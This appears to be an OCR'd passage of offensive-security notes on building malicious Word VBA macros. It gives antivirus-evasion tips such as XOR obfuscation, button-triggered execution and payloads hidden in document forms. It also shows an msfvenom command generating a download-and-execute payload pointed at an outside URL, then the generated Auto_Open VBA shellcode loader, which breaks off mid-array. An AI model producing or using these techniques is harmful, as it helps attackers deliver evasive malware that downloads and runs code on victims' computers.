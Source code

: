 Author tips

- Author recommends doing code obfucation (e.g. XOR) but not pulling in a third
  party lib to do it as AV scanners will likely pick it up.
- Author recommends not running your code on document open becuase it looks
  suspicious to AV scanners. Instead create a button which the user will click
  to run the code (this makes it harder to spot by AV)

Other techniques

- main VBA can be clean but store the malicious content in forms within the
  document which the main VBA reads and writes its payload to disk
- MS Word has different file format for documents without macros (docx) and with
  macros (docm)
- In general, MS Word opens files based on the file data, not based on the file
  name extension. So long as MS Word can identify the data structure, it will
  open the file correctly. This means you can rename .docx files to .rtf and
  word will open it just fine.
- renaming a `.docm` to `.docx` will prevent it from opening (which is a good
  thing)

#### Aside: msfvenom

Metasploit will create a VBA snippet for you that encodes binary of your choice
as a decimal encoded shellcode `msfvenom`. It is functional but basic and will
be caught by many AV scanners because it encodes the payload directly in the VBA
code (as decimal shellcode)

```bash
$ ls
hello  hello.c
$ msfvenom -p windows/download_exec -f vba -e x86/shikata_ga_nai -i 5 -a x86 --platform Windows EXE=~/hello URL=http://www.blah.com > output.vbs
```

Contents of output.vbs:

```vbs
#If Vba7 Then
	Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zgudvwh As Long, ByVal Vxpmqwy As Long, ByVal Urrjowm As LongPtr, Ykjkcx As Long, ByVal Gdklw As Long, Qyxngl As Long) As LongPtr
	Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Lslpj As Long, ByVal Xqm As Long, ByVal Yfbbr As Long, ByVal Bqjofnv As Long) As LongPtr
	Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Gocnqictp As LongPtr, ByRef Rnutsjvsr As Any, ByVal Dnquy As Long) As LongPtr
#Else
	Private Declare Function CreateThread Lib "kernel32" (ByVal Zgudvwh As Long, ByVal Vxpmqwy As Long, ByVal Urrjowm As Long, Ykjkcx As Long, ByVal Gdklw As Long, Qyxngl As Long) As Long
	Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Lslpj As Long, ByVal Xqm As Long, ByVal Yfbbr As Long, ByVal Bqjofnv As Long) As Long
	Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Gocnqictp As Long, ByRef Rnutsjvsr As Any, ByVal Dnquy As Long) As Long
#EndIf

Sub Auto_Open()
	Dim Ljcndgm As Long, Omagfa As Variant, Nunfzfwl As Long
#If Vba7 Then
	Dim  Kjpjr As LongPtr, Jnjbycok As LongPtr
#Else
	Dim  Kjpjr As Long, Jnjbycok As Long
#EndIf
	Omagfa = Array(177,159,144,111,219,220,217,116,36,244,91,41,201,177,135,49,67,21,3,67,21,131,235,252,226,68,66,81,213,131,161,225,37,18,45,34,206,249,231,227,159,128,201,166,200,129,124,94,116,77,94,49,128,132,140,154,110,111,198,241,114,122,118,48,45,66,208,55,28,225,119,199,189,54,187,82,41,160,143,253, _
```